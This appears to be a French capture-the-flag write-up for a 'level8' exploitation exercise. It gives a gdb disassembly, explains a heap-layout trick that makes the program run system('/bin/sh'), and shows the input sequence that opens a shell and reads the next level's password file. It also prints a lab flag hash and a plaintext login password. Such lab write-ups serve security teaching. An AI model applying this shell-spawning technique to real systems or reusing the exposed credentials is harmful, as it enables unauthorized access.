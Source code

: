 On se connecte sur le level8, ou se trouve un **binaire** <code>level8</code>.

On cherche a savoir ce que fait ce binaire:

```gdb
gdb level8  -q
Reading symbols from /home/user/level8/level8...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x08048564 <+0>:     push   %ebp
   0x08048565 <+1>:     mov    %esp,%ebp
   0x08048567 <+3>:     push   %edi
   0x08048568 <+4>:     push   %esi
   0x08048569 <+5>:     and    $0xfffffff0,%esp
   0x0804856c <+8>:     sub    $0xa0,%esp
   0x08048572 <+14>:    jmp    0x8048575 <main+17>
   0x08048574 <+16>:    nop
   0x08048575 <+17>:    mov    0x8049ab0,%ecx
   0x0804857b <+23>:    mov    0x8049aac,%edx
   0x08048581 <+29>:    mov    $0x8048810,%eax
   0x08048586 <+34>:    mov    %ecx,0x8(%esp)
   0x0804858a <+38>:    mov    %edx,0x4(%esp)
   0x0804858e <+42>:    mov    %eax,(%esp)
   0x08048591 <+45>:    call   0x8048410 <printf@plt>
   0x08048596 <+50>:    mov    0x8049a80,%eax
   0x0804859b <+55>:    mov    %eax,0x8(%esp)
   0x0804859f <+59>:    movl   $0x80,0x4(%esp)
   0x080485a7 <+67>:    lea    0x20(%esp),%eax
   0x080485ab <+71>:    mov    %eax,(%esp)
   0x080485ae <+74>:    call   0x8048440 <fgets@plt>
   0x080485b3 <+79>:    test   %eax,%eax
   0x080485b5 <+81>:    je     0x804872c <main+456>
   0x080485bb <+87>:    lea    0x20(%esp),%eax
   0x080485bf <+91>:    mov    %eax,%edx
   0x080485c1 <+93>:    mov    $0x8048819,%eax
   0x080485c6 <+98>:    mov    $0x5,%ecx
   0x080485cb <+103>:   mov    %edx,%esi
   0x080485cd <+105>:   mov    %eax,%edi
   0x080485cf <+107>:   repz cmpsb %es:(%edi),%ds:(%esi)
   0x080485d1 <+109>:   seta   %dl
   0x080485d4 <+112>:   setb   %al
   0x080485d7 <+115>:   mov    %edx,%ecx
   0x080485d9 <+117>:   sub    %al,%cl
   0x080485db <+119>:   mov    %ecx,%eax
   0x080485dd <+121>:   movsbl %al,%eax
   0x080485e0 <+124>:   test   %eax,%eax
   0x080485e2 <+126>:   jne    0x8048642 <main+222>
   0x080485e4 <+128>:   movl   $0x4,(%esp)
   0x080485eb <+135>:   call   0x8048470 <malloc@plt>
   0x080485f0 <+140>:   mov    %eax,0x8049aac
   0x080485f5 <+145>:   mov    0x8049aac,%eax
   0x080485fa <+150>:   movl   $0x0,(%eax)
   0x08048600 <+156>:   lea    0x20(%esp),%eax
   0x08048604 <+160>:   add    $0x5,%eax
   0x08048607 <+163>:   movl   $0xffffffff,0x1c(%esp)
   0x0804860f <+171>:   mov    %eax,%edx
   0x08048611 <+173>:   mov    $0x0,%eax
   0x08048616 <+178>:   mov    0x1c(%esp),%ecx
   0x0804861a <+182>:   mov    %edx,%edi
   0x0804861c <+184>:   repnz scas %es:(%edi),%al
   0x0804861e <+186>:   mov    %ecx,%eax
   0x08048620 <+188>:   not    %eax
   0x08048622 <+190>:   sub    $0x1,%eax
   0x08048625 <+193>:   cmp    $0x1e,%eax
   0x08048628 <+196>:   ja     0x8048642 <main+222>
   0x0804862a <+198>:   lea    0x20(%esp),%eax
   0x0804862e <+202>:   lea    0x5(%eax),%edx
   0x08048631 <+205>:   mov    0x8049aac,%eax
   0x08048636 <+210>:   mov    %edx,0x4(%esp)
   0x0804863a <+214>:   mov    %eax,(%esp)
   0x0804863d <+217>:   call   0x8048460 <strcpy@plt>
   0x08048642 <+222>:   lea    0x20(%esp),%eax
   0x08048646 <+226>:   mov    %eax,%edx
   0x08048648 <+228>:   mov    $0x804881f,%eax
   0x0804864d <+233>:   mov    $0x5,%ecx
   0x08048652 <+238>:   mov    %edx,%esi
   0x08048654 <+240>:   mov    %eax,%edi
   0x08048656 <+242>:   repz cmpsb %es:(%edi),%ds:(%esi)
   0x08048658 <+244>:   seta   %dl
   0x0804865b <+247>:   setb   %al
   0x0804865e <+250>:   mov    %edx,%ecx
   0x08048660 <+252>:   sub    %al,%cl
   0x08048662 <+254>:   mov    %ecx,%eax
   0x08048664 <+256>:   movsbl %al,%eax
   0x08048667 <+259>:   test   %eax,%eax
   0x08048669 <+261>:   jne    0x8048678 <main+276>
   0x0804866b <+263>:   mov    0x8049aac,%eax
   0x08048670 <+268>:   mov    %eax,(%esp)
   0x08048673 <+271>:   call   0x8048420 <free@plt>
   0x08048678 <+276>:   lea    0x20(%esp),%eax
   0x0804867c <+280>:   mov    %eax,%edx
   0x0804867e <+282>:   mov    $0x8048825,%eax
   0x08048683 <+287>:   mov    $0x6,%ecx
   0x08048688 <+292>:   mov    %edx,%esi
   0x0804868a <+294>:   mov    %eax,%edi
   0x0804868c <+296>:   repz cmpsb %es:(%edi),%ds:(%esi)
   0x0804868e <+298>:   seta   %dl
   0x08048691 <+301>:   setb   %al
   0x08048694 <+304>:   mov    %edx,%ecx
   0x08048696 <+306>:   sub    %al,%cl
   0x08048698 <+308>:   mov    %ecx,%eax
   0x0804869a <+310>:   movsbl %al,%eax
   0x0804869d <+313>:   test   %eax,%eax
   0x0804869f <+315>:   jne    0x80486b5 <main+337>
   0x080486a1 <+317>:   lea    0x20(%esp),%eax
   0x080486a5 <+321>:   add    $0x7,%eax
   0x080486a8 <+324>:   mov    %eax,(%esp)
   0x080486ab <+327>:   call   0x8048430 <strdup@plt>
   0x080486b0 <+332>:   mov    %eax,0x8049ab0
   0x080486b5 <+337>:   lea    0x20(%esp),%eax
   0x080486b9 <+341>:   mov    %eax,%edx
   0x080486bb <+343>:   mov    $0x804882d,%eax
   0x080486c0 <+348>:   mov    $0x5,%ecx
   0x080486c5 <+353>:   mov    %edx,%esi
   0x080486c7 <+355>:   mov    %eax,%edi
   0x080486c9 <+357>:   repz cmpsb %es:(%edi),%ds:(%esi)
   0x080486cb <+359>:   seta   %dl
   0x080486ce <+362>:   setb   %al
   0x080486d1 <+365>:   mov    %edx,%ecx
   0x080486d3 <+367>:   sub    %al,%cl
   0x080486d5 <+369>:   mov    %ecx,%eax
   0x080486d7 <+371>:   movsbl %al,%eax
   0x080486da <+374>:   test   %eax,%eax
   0x080486dc <+376>:   jne    0x8048574 <main+16>
   0x080486e2 <+382>:   mov    0x8049aac,%eax
   0x080486e7 <+387>:   mov    0x20(%eax),%eax
   0x080486ea <+390>:   test   %eax,%eax
   0x080486ec <+392>:   je     0x80486ff <main+411>
   0x080486ee <+394>:   movl   $0x8048833,(%esp)
   0x080486f5 <+401>:   call   0x8048480 <system@plt>
   0x080486fa <+406>:   jmp    0x8048574 <main+16>
   0x080486ff <+411>:   mov    0x8049aa0,%eax
   0x08048704 <+416>:   mov    %eax,%edx
   0x08048706 <+418>:   mov    $0x804883b,%eax
   0x0804870b <+423>:   mov    %edx,0xc(%esp)
   0x0804870f <+427>:   movl   $0xa,0x8(%esp)
   0x08048717 <+435>:   movl   $0x1,0x4(%esp)
   0x0804871f <+443>:   mov    %eax,(%esp)
   0x08048722 <+446>:   call   0x8048450 <fwrite@plt>
   0x08048727 <+451>:   jmp    0x8048574 <main+16>
   0x0804872c <+456>:   nop
   0x0804872d <+457>:   mov    $0x0,%eax
   0x08048732 <+462>:   lea    -0x8(%ebp),%esp
   0x08048735 <+465>:   pop    %esi
   0x08048736 <+466>:   pop    %edi
   0x08048737 <+467>:   pop    %ebp
   0x08048738 <+468>:   ret
End of assembler dump.
```

Apres analyse du fichier (**source.c**), on se rend compte que le programme lance un **system("/bin/sh")** si le 32ème byte au dessus de notre global **auth** est alloué ou different de 0.

Pour allouer, nous pouvons utiliser **service** qui va faire un **strdup** + 7 (donc tous ce qui se trouve apres la string "service").

Donc il suffit de faire un **"auth "** puis d'allouer la bonne taille (ou plus), et de faire un **login**.

Donc ici 2 possibilités :
- Faire 2 fois service pour allouer 2 fois 16 bytes grâce au **strdup**
- Faire une seul fois service, mais faire un string suffisamment grande pour allouer au moins 31 bytes.
> Car **fgets** ajoute à la fin de la string un "\n" dans tous les cas

<pre></code>> ./level8
(nil), (nil)
> auth 
0x804a008, (nil)
> service
0x804a008, 0x804a018
> service
0x804a008, 0x804a028
> login
>cd ../level9 && cat .pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
</code></pre>

For download :
<pre><code>scp -P4242 level8@192.168.1.78:level8 .</code></pre>
> Password : 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9